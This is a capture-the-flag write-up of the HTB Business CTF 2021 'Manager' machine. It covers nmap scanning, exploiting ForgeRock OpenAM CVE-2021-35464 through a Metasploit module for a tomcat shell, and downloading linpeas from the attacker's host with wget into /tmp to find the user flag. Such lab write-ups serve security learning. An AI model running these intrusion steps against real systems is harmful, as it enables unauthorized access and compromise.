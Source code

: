 # HTB Business CTF 2021
## Fullpwn writeup - Manager-user

First of all, after creating instance, let's scan open ports by using nmap:
```
nmap -n -Pn -sV 10.129.173.133
```
![Nmap results](nmap.PNG)

As we can see, the machine have open port on 8080 (Apache tomcat). 
I will try to check what is that in browser by typing ```http://10.129.173.133:8080```:

![Checking site...](redir.PNG)

It redirected us to ```http://manager.htb:8080/openam/UI/login``` which is unavailable.
In that case It's good to add in ```/etc/hosts``` a static domain to IP mapping and try do it again:

![/etc/hosts changing](etc_hosts.PNG)

After successful change, let's try again and see what's behind it:

![openam website](openam_website.PNG)

It's a OpenAM login webiste - we don't have any credentials, so first I checked for exploits for it.
By typing ```openam exploit``` I found the fresh one vulnerability, which is Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464). It's a classic example of Java deserialization - more details you can find [there](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464). On [packet storm](https://packetstormsecurity.com/files/cve/CVE-2021-35464) I found also the raw exploit code and the Metasploit module called ```exploit/multi/http/cve_2021_35464_forgerock_openam```:

![MSF info](msf_openam_info.PNG)

Let's try to use module in Metasploit. We need to setup proper values to use exploit properly. 

![MSF config](msf_config.PNG)

After completing exploit configuration I checked if it is for sure vulnerable and execute the exploit:

![MSF vuln](msf_vuln.PNG)

It opened successfully a session for us, where we can enable interactive shell. 

![MSF tomcat](msf_tomcat.PNG)

We have a access to the machine as a ```tomcat``` user. Tomcat user can write a files in a /tmp/ folder which could be a dropzone for us. I will use that fact to drop linpeas script to check vulnerabilities on that machine in purpouse of obtaining a ```root```. To do that I simply start http server in python on Kali and use wget in shell to download a script:

```
python3 -m http.server 8080
wget 10.10.14.55:8080/linpeas.sh -P /tmp/
```
![Dropzone](linpeas_drop.PNG)

Then I add a execute rights and start a script. 

![Linpeas](linpeas_start.PNG)

When I checked results my eyes stopped on files inside ```/opt/tomcat```. I saw interesting file called ```user.txt```. 

![MSF vuln](tomcat_folder.PNG)

In that file we have the first flag for tomcat user - HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}. 

![Flag tomcat](user_flag.PNG)

The second one flag for root user  unfortunaley I didn't catch :/.

